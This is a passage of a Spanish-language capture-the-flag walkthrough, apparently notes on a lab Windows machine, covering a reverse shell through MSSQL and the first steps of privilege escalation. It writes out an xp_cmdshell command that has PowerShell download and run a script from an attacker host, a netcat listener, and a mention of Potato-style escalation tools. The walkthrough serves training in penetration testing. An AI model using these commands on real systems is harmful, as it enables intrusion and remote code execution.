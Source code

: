 Esto nos permite lanzar el Script directamente despues de descargamiento del fichero en la maquina victima


### Enviamos y ejecutamos la reverse shell {-}

1. montamos un http server con python

    ```bash
    python3 -m http.server 80
    ```

1. En la maquina de atacante en una nueva shell

    ```bash
    rlwrap nc -nlvp 443
    ```

1. en la mssql shell

    ```bash
    xp_cmdshell "powershell IEX(New-Object Net.WebClient).downloadString(\"http://10.10.14.8/PS.ps1\")"
    ```

Ya estamos a dentro.

### Analizamos el sistema {-}

```bash
whoami
ipconfig
[Environment]::Is64BitOperatingSystem
[Environment]::Is64BitProcess
whoami /priv
```
## Escalada de Privilegios {-}

### Rootear la maquina {-}

```bash
whoami /priv
#Output

SEImpersonatePrivilege
```

Aqui ya vemos que podemos escalar privilegios con 
```bash
 JuicyPotatoe.exe 
```
 o 
```bash
 RotenPotatoe.exe 
```
 pero S4vitar nos
muestra aqui una via alternativa de escalar privilegios en esta maquina.
